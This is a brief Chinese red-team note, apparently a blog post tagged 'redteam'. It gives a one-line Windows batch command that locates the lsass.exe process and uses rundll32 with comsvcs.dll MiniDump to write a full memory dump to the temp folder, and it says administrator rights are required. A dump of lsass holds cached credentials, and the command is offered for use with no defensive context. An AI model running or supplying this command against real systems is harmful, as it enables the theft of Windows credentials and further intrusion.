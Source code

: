 ```yaml
---
title: 一条命令dump lsass.exe 进程内存
date: 2019-08-30 20:29:57
tags: redteam
---
```

- 特点: 加载comsvcs.dll系统库，全自动化，不除非杀软
- 注意: 请用管理员权限执行

```bat
set dumpfile=%tmp%\%COMPUTERNAME%_lass.dump& for /f  "tokens=2" %i in ('tasklist /FI "IMAGENAME eq lsass.exe" /NH') do @rundll32 C:\windows\system32\comsvcs.dll, MiniDump %i %dumpfile% full&PING -n 3 127.0.0.1 >NUL 2>&1 || PING -n 3 ::1 >NUL 2>&1 &IF EXIST %dumpfile% (echo processname:lsass.exe Memory saved to %dumpfile%) else (echo Dump wrong.)
```

[参考:MiniDumpWriteDump via COM+ Services DLL](https://modexp.wordpress.com/2019/08/30/minidumpwritedump-via-com-services-dll/)